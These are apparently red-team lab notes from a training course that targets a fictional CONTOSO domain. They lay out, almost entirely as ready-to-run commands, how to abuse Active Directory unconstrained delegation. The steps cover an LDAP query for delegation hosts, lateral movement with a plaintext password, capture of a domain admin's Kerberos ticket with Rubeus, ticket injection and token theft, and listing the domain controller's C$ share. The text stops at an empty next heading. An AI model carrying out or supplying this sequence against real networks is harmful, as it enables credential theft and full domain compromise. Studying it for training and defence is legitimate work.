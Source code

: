 
### Unconstrained Delegation
- Use LDAP to find computers configured for unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb

-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  Wait 1-2 minutes for the TGT of a domain administrator to be captured.
    
-  Stop Rubeus.
    
    1. jobs
    2. jobkill 0

-  Inject the captured TGT into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]`
    
-  Impersonate the spawned process.
    
    1. steal_token [PID]
-  Verify the ticket is present.
    
    1. run klist
-  Use it to access _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$
-  Drop the impersonation.
    
    1. rev2self
-  Terminate the spawned process.
    
    1. kill [PID]

### Constrained Delegation
